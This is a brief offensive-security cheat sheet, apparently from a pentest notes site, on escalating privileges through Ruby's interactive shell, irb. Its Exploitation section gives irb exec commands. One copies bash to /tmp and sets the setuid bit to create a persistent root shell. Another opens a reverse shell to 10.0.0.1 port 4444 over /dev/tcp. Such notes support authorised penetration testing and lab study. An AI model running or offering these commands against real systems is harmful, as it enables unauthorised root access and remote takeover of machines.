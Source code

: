 ```yaml
---
title: irb (Interactive Ruby Shell) Privilege Escalation
description: 
tags:
    - Privilege Escalation
refs:
date: 2023-03-28
draft: false
---
```


## Exploitation

```bash
irb

# #q!: Define a string literal
> exec %q!whoami!
> exec %q!cp /bin/bash /tmp/bash; chmod +s /tmp/bash!
> exec %q!bash -c "bash -i >& /dev/tcp/10.0.0.1/4444 0>&1"!
```

